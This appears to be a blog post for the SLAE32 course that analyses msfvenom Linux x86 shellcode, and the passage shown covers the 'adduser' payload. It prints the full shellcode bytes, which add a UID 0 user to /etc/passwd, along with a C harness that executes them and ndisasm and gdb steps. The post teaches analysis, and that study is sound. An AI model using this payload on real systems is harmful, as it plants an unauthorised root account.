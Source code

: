 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor"<br> 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
### setgid()
The first syscall as said is the ```setgid``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
Now define hook-stop procedure, ```stepi``` to the ```int 0x80``` call and check the first 4 register
<br>
```gdb
Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>


We have to note two things here. The first is the 3 push dword of the ```open``` syscall that is most certainly the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/analysis_3.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>

Well done, we have find the file path opened by ```open``` syscall, it's /etc/passwd, obviously in reverse order beacause we are in little endian and with a double slah to make the number of the letters divisible by 4, so ```dwssap//cte/```.<br>
The second is the chunk of code just after the ```call dword 0x53```, it seems only text instead of assembly instruction and as we will see, this code would never be executed.<br>


